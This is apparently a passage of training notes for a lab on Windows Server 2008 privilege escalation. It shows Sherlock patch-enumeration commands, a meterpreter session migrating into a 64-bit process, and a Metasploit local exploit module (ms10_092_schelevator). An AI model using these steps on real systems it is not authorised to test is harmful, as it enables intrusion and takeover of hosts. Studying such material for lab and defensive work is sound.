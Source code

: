 For an older OS like Windows Server 2008, we can use an enumeration script like [Sherlock](https://github.com/rasta-mouse/Sherlock) to look for missing patches. We can also use something like [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), which takes the results of the `systeminfo` command as an input, and compares the patch level of the host against the Microsoft vulnerability database to detect potential missing patches on the target.

Find local exploits with Sherlock
```powershell
Import-Module .\Sherlock.ps1
Find-AllVulns
```

Obtain meterpreter shell and migrate to 64-bit process
```bash
meterpreter > getpid
meterpreter > ps

 2460  2656  explorer.exe       x64   2        WINLPE-2K8\htb-student  C:\Windows\explorer.exe
 2632  2032  csrss.exe
 2796  2632  conhost.exe        x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\conhost.exe
 2876  476   svchost.exe

meterpreter > migrate 2796
meterpreter > background
```

Exploit via metasploit and meterpreter shell
```bash
use exploit/windows/local/ms10_092_schelevator
```
